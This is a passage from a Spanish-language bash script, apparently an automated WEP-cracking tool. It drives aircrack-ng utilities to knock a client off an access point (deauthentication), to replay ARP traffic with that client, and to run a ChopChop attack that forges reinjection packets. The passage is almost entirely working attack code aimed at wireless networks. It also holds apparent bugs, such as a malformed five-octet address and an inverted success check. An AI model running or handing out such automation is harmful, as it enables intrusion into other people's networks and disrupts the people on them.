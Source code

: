 		fi
		sleep $ESPERA
		comprobar_airodump
		if [ "$AIRODUMP_FUNCIONANDO" != "" ] #si airodump ya no está abierto sale de este bucle
		then
			break
		fi
	done
	if [ "$CLIENTE" != "" ] && [ "$AIRODUMP_FUNCIONANDO" != "" ]
	then
		CLIENTE_FABRICANTE=`$FABRICANTE "$CLIENTE"`
		echo -en $verdeC"\rExpulsando cliente $CLIENTE [$CLIENTE_FABRICANTE]... "
		echo -e $grisC
		if [ "$INTERFAZ_GRAFICA" = "SI" ]
		then
			xterm $BIEN $FUENTE $ASOCIACION_VENTANA -title "ATAQUE -0 [Expulsando al cliente del AP]" -e $AIREPLAY -0 1 -a $MAC_AP -c $CLIENTE $INTERFAZ_MONITOR
		else
			$SCREEN -dm -t "Expulsión" $AIREPLAY -0 1 -a $MAC_AP -c $CLIENTE $INTERFAZ_MONITOR
			esperar_cierre "$AIREPLAY -0 1"
		fi
		echo -e "$verdeC"Reinyectando tráfico usando el cliente $CLIENTE..." $grisC\n"
		if [ "$INTERFAZ_GRAFICA" = "SI" ]
		then
			xterm $BIEN $FUENTE $ATAQUE3_2_VENTANA -title "ATAQUE -3 [Reinyección con cliente real] #$INTENTOS_CLIENTE" -e $AIREPLAY -3 -b $MAC_AP -h $CLIENTE $INTERFAZ_MONITOR
		else
			$SCREEN -dm -t "Reinyección_real" $AIREPLAY -3 -b $MAC_AP -h $CLIENTE $INTERFAZ_MONITOR
			esperar_cierre "$AIREPLAY -3 -b"
		fi
		if [ $? -eq 0 ] #si falla el ataque se informa del suceso y se reintenta
		then
			echo -e $rojoC"La reinyección con el cliente $CLIENTE ha fallado. "$cyan"Reintentando..."$grisC"\n"
			CLIENTE=""
			sleep $ESPERA
		fi
	fi
	INTENTOS_CLIENTE=$((INTENTOS_CLIENTE+1))
	comprobar_airodump
done
}

#INYECCIÓN DE TRÁFICO - ATAQUE 4 [ChopChop]
ataque_4()
{
if [ "$INTERFAZ_GRAFICA" = "SI" ]
then
	xterm $NORMAL $FUENTE $ATAQUE4_VENTANA -title "ATAQUE -4 [ChopChop] - Esperando paquete ARP..." -e $AIREPLAY -4 -F -a $MAC_AP -h $MAC_INTERFAZ -i $INTERFAZ_MONITOR $INTERFAZ_MONITOR
else
	$SCREEN -dm -t "ChopChop_esperando" $AIREPLAY -4 -F -a $MAC_AP -h $MAC_INTERFAZ -i $INTERFAZ_MONITOR $INTERFAZ_MONITOR
	esperar_cierre "$AIREPLAY -4"
fi
comprobar_airodump #CONTROLA SI SE HA CERRADO LA CAPTURA DE TRÁFICO
if [ "$AIRODUMP_FUNCIONANDO" != "" ]
then
	if [ "$INTERFAZ_GRAFICA" = "SI" ]
	then
		xterm $INFORMA $FUENTE $ATAQUE4_VENTANA -title "ATAQUE -4 [ChopChop] - Generando paquete de reinyección..." -e $PACKETFORGE -0 -a $MAC_AP -h $MAC_INTERFAZ -k 255.255.255.255 -l 255.255.255.255.255 -y replay_dec-*.xor -w ./$CAPTURA/ataque4.cap
	else